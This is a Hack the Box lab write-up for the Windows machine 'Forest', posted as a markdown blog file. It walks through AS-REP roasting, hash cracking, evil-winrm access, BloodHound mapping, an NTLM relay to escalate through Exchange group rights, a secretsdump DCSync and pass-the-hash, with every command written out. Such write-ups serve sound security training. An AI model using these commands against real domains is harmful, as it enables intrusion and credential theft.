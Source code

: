 +++
author = "Nick"
categories = ["hack the box", "RPC", "evil-winrm", "impacket", "ntlm relay", "bloodhound", "pass the hash", "windows", "Powershell"]
date = 2020-03-21T11:26:04Z
description = ""
draft = false
thumbnail = "/images/2019/12/forest.png"
slug = "hack-the-box-forest"
summary = "Welcome back everyone. Today we will be doing the Hack the Box machine Forest. The box is listed as an easy Windows box. Let's jump in!"
tags = ["hack the box", "RPC", "evil-winrm", "impacket", "ntlm relay", "bloodhound", "pass the hash", "windows", "Powershell"]
title = "Hack the Box - Forest"
url = "/hack-the-box-forest"

+++


Welcome back everyone. Today we will be doing the Hack the Box machine Forest. The box is listed as an easy Windows box. Let's jump in!

As normal, we kick it off with an ```nmap``` scan: ```nmap -sC -sV -oA initial_scan 10.10.10.161```

Here are our results:
```
Nmap scan report for 10.10.10.161
Host is up (0.15s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2019-12-10 14:45:10Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=12/10%Time=5DEFADE2%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version
SF:\x04bind\0\0\x10\0\x03");
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h46m50s, deviation: 4h37m10s, median: 6m48s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2019-12-10T06:47:44-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2019-12-10T14:47:41
|_  start_date: 2019-12-10T05:12:53

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 307.76 seconds
```

We initially see ```LDAP```, ```Kerberos``` and ```SMB``` ports available. Let's see what might be shared on ```SMB```. Repeating the scan again with ```-p-``` gives us some additional ports as well. Most notabled ```5985```.

A quick ```SMBMap``` gives us access denied. Next we'll try to gain access via ```RPCclient```: ```rpclient -U "" -N 10.10.10.161```. This gives us access, we can enumerate users this way using ```enumdomusers``` within our connection:

![](/images/2019/12/rpcclient.gif)

We can take those and paste them into a file called ```users.txt```. Now we want to remove all the junk and essentially keep the usernames. A quick one liner: 

```cat users.txt | cut -d "[" -f2 | cut -d "]" -f1 > trimmed_users.txt```.

Now that we have a list of users. We could try a few things bruteforce, kerberoasting or AS-REP Roast. Lucky for us ```impacket```  gives us the tools to try all of these out. 

At the time of writting this, the current version of ```Impacket``` on Kali is 9.18 which does NOT support userfiles command. You'll need to add a username one at a time. You can also copy the updated script from [here](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetNPUsers.py) and use that. 

First we'll use ```GetNPUsers.py``` to see if any users have ```DONT_REQ_PREAUTH``` enabled. If we find some, we can use AS-REP to obtain some leverage.

Command:
```./GetNPUsers.py htb/ -userfile trimmed_users.txt -format john -dc-ip 10.10.10.161```

A breakdown of the above command. The ```htb/``` is our domain. ```-usersfile``` is the file we created earlier. ```-format john``` means we want to output our format for easy cracking in ```John```. Lastly, ```-dc-ip``` is our target Domain Controller, in this case, our target.

![](/images/2019/12/pre_auth.gif)

Now that we have a username and hash, we can crack it in ```John```. We issue ```John --wordlist=/usr/share/wordlists/rockyou.txt vuln_users.txt``` to get the cracking going. Shortly we have a result: ```s3rvice```.

![](/images/2019/12/image-13.png)

Now that we have a set of credentials, we can look to use those. Our earlier enumeration showed us that we could leverage ```Win-RM``` on port ```5985```. So we'll do just that. We'll use [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) and start enumerating further.

Command:
```evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'```

![](/images/2019/12/winrm_user.gif)

Now that we have a shell and we have access to the ```user.txt``` flag. Onto root! We can start enumerating internally. We do the normal groups and user checks with ```systeminfo```, ```net user svc-alfresco``` and ```net group``` to start. Here is a quick link to some enumeration methods for Windows machines: [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#user-enumeration).

We see that there are exchanges groups listed on the system. To better help visualize the path we want to take to domain admin, we can use [```Bloodhound```](https://github.com/BloodHoundAD/BloodHound/wiki/getting-started). If you're a Kali user you can simply ```apt get install Bloodhound```. Otherwise, follow the directions on the Github.

Once installed, we need to leverage SharpHound.ps1 to gain data. We find that script [here](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1). Upload that file via ```Evil-WinRM```. 

Command:
```upload /root/Tools/SharpHound.ps1 C:\Users\svc-alfresco\Documents```

![](/images/2019/12/image-15.png)

Import the module into our Powershell prompt:

```import-module .\SharpHound.ps1```

Then run ```invoke-bloodhound -CollectionMethod All -Domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice```.

This will compile all sorts of AD data into a zip file for us to download. Once downloaded, upload the data into ```Bloodhound```. We can then filter by 'Highest Value Target' and start narrowing down a path to take based on our previous research.

![](/images/2019/12/image-14.png)

Based on our above breakdown we can see that we have the ability to write to the ```Exchange Windows Permissions``` group. So we'll want to add ourselves to that group.

Command:
```net group "Exchange Windows Permissions" svc-alfresco /ADD```

Once we are part of that group we can try to escalate our privileges based on [this research](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/).

So we'll spin up our ```NTLM Relay```:

Command:
```ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco```

Then we can browse to our ip and authenticate with ```svc-afresco``` credentials.

![](/images/2019/12/ntlm_relayed.gif)

After a few resets on the box and switching from EU to US a few times, it finally worked. We now can dump some secrets.

Command:
```python secretsdump.py htb.local/svc-alfresco@10.10.10.161 -just-dc```

This kicks out a whole bunch of hashes. So our goal is to pass the hash as administrator for a shell.

![](/images/2019/12/image-18.png)

To do this we'll use ```wmiexec.py```.

Command:
```python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161```

![](/images/2019/12/root_again.gif)

There we have it, our root shell with flag!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

